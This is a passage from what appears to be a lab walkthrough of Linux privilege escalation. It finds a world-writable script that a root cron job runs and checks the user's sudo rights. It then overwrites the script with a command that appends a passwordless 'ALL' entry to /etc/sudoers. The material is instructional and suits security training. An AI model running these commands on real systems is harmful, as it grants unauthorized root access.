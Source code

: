 Some script/binary is copying this file from the `/home/student` directory to `/tmp` directory. Let's try to search that script. If the script is doing a simple copy operation, it must have the source destination of the file in it. 

`grep -nri "/tmp/message" / 2> /dev/null`:
```
/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message ←
/usr/local/share/copy.sh:3:chmod 644 /tmp/message ←
```
We have found the script location (`/usr/local/share/copy.sh`), which is copying the message file to the `/tmp` directory.

Let's check the content of this script file and its permissions.

`cat /usr/local/share/copy.sh`:
```
#! /bin/bash
cp /home/student/message /tmp/message
chmod 644 /tmp/message
```

`ls -l /usr/local/share/copy.sh`:
```
-rwxrwxrwx 1 root root 74 Jan 21  2022 /usr/local/share/copy.sh ←
```

**Step 2B**.

Let's check which commands the user can execute with sudo.

`sudo -l`:
```
Matching Defaults entries for student on ip-10-4-26-123:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User student may run the following commands on ip-10-4-26-123:
    (root) NOPASSWD: /etc/init.d/cron ←
```
The student has permission to restart/start the cron service.

As the script file is writable by the current student user, we can modify the `copy.sh` file to execute our commands. A root cron job manages this script, which allows us to run commands as root after modifying the file.

**Step 3B**.

`echo -e '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`.
These lines will push an entry into the `/etc/sudoers` file, which will allow the student user to run all commands as root using sudo without providing any password.

`cat /usr/local/share/copy.sh`:
```
#! /bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers ←
```
